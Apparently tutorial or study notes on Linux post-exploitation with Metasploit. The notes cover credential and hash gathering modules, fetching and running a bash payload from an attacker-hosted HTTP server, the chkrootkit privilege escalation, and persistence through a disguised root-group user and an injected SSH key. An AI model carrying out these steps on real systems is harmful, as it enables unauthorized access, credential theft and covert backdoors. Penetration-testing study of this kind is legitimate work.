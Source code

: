 
---

## Linux Post Exploitation Modules

The first post exploit modules that we can use is: **"linux/gather/enum_configs"** which collects configuration files found on commonly installed applications and services, such as Apache, MySQL, Samba, Sendmail, etc. 

Another module is:**"multi/gather/env"** which prints out the operating system environment variables.

Another one : **"linux/gather/enum_network"**, which gathers network information from the target system IPTables rules, interfaces, wireless information, open and listening ports, active network connections, DNS information and SSH information.

Another one is: **"linux/gather/enum_protections"** which checks whether popular system hardening mechanisms are in place, such as SMEP, SMAP, SELinux, PaX and grsecurity. It also tries to find installed applications that can be used to hinder, prevent, or detect attacks, such as tripwire, snort, and apparmor.

Another one is : **"linux/gather/enum_system"** which gathers system information. We collect installed packages, installed services, mount information, user list, user bash history and cron jobs.

Another one: **"linux/gather/checkcontainer"** which attempts to determine whether the system is running inside of a container and if so, which one. This module supports detection of Docker, WSL, LXC, Podman and systemd nspawn.

Another one: **"linux/gather/checkvm"** which attempts to determine whether the system is running inside of a virtual environment and if so, which one. This module supports detection of Hyper-V, VMWare, VirtualBox, Xen, and QEMU/KVM.

Another one: **"post/linux/gather/enum_users_history"** which gathers the following user specific information: shell history, MySQL history, PostgreSQL history, MongoDB history, Vim history, lastlog, and sudoers.

Another one: **"post/multi/manage/system_session"**  which gathers the following user-specific information: shell history, MySQL history, PostgreSQL history, MongoDB history, Vim history, lastlog, and sudoers.

Another one: "linux/manage/download_exec" which downloads and runs a file with bash. It first tries to uses curl as its HTTP client and then wget if it's not found. Bash found in the PATH is used to execute the file.

That means we need to create a file on our local machine that has bash commands then we can upload it to the target machine after hosting a simple HTTP server on our machine using python like so: `python3 -m http.server 80` Now, we set the URL option in the module to this: "http://(our IP address):80/(name of file.sh)" 

The file content might be: useradd (name of user)

---

## Linux Privilege Escalation: Exploiting A Vulnerable Program

After gaining a meterpreter session and a reverse shell session on the target machine, we will list the processes running on the target machine: `ps aux`

If we see this: "/bin/check-down" that means there is a script file that is running called: "check-down" . We see its content and we find something called: "chkrootkit"

### What is Chkrootkit:

chkrootkit is a tool for detecting rootkits on a Linux system. A rootkit is a type of malicious software designed to gain unauthorized access to a system, often hiding its presence and activity from system administrators.

In fact, chkrootkit is vulnerable to privilege escalation vulnerability before its 0.5 version. 

We can check the current version of chkrootkit by: `chkrookit -V` If the version is before 0.5, that means it is vulnerable to privilege escalation.

We will use this MSF module: **"unix/local/chkrootkit"** .

We set the path to the chkrookit which we can find by:`which chkrootkit` on the target machine, and we also set a meterpreter session.

After running the module, we need to wait until chkrootkit runs and we gain a privileged user.

---


## Dumping Hashes With Hashdump


The hashdump module can be used to dump the user account hashes from the /etc/shadow file and can also be used to unshadow the hahses for password cracking with John the Ripper. 

**Note: /etc/shadow file is only accessible with root privileges**

We can use this post exploit module: **"post/multi/gather/ssh_creds"** which will collect the contents of all users' .ssh directories on the targeted machine. Additionally, known_hosts and authorized_keys and any other files are also downloaded.

Another one: **"post/multi/gather/docker_creds"** which  will collect the contents of all users' .docker directories on the targeted machine. If the user has already push to docker hub, chances are that the password was saved in base64.

Another one: **"post/linux/gather/hashdump"** which will dump the password hashes for all users on a Linux System.

Another one: **"post/linux/gather/ecryptfs_creds"** which will collect the contents of all users' .ecrypts directories on the targeted machine. Collected "wrapped-passphrase" files can be cracked with John the Ripper (JtR) to recover "mount passphrases".

Another one: **"post/linux/gather/enum_psk"** which collects 802-11-Wireless-Security credentials such as Access-Point name and Pre-Shared-Key from Linux NetworkManager connection configuration files.

Another one: **"post/linux/gather/phpmyadmin_credsteal"** which gathers Phpmyadmin creds from target linux machine.

Another one: **"post/linux/gather/pptpd_chap_secrets"** which collects PPTP VPN information such as client, server, password, and IP from your target server's chap-secrets file.

Another one: **"post/linux/manage/sshkey_persistence"**  which will add an SSH key to a specified user (or all), to allow remote login via SSH at any time.

If there is an ssh service running on the target machine, we can use the ssh key that we got like so: `ssh -i (ssh key file) username@target_IP_address`



---

## Establishing Persistence On Linux

Once we have privilege user like root on the target machine, we can add a user with a password that we can access at anytime through ssh. However, the target machine has to be running ssh service. 

On the target host: `useradd (name of user) -m -s /bin/bash`

Note: -m is to automatically create a home directory for the new user and /bin/bash is for our new user to blind in when users view the /etc/passwd file.  Also, the new user should be named after a service that could be run on Linux, like ftp for example,

To create new password: `passwd (name of user)`

To add the new user to root group: `usermod -aG root (name of user)`

Now, we have a user that has root privileges that we can access via ssh at anytime.

---

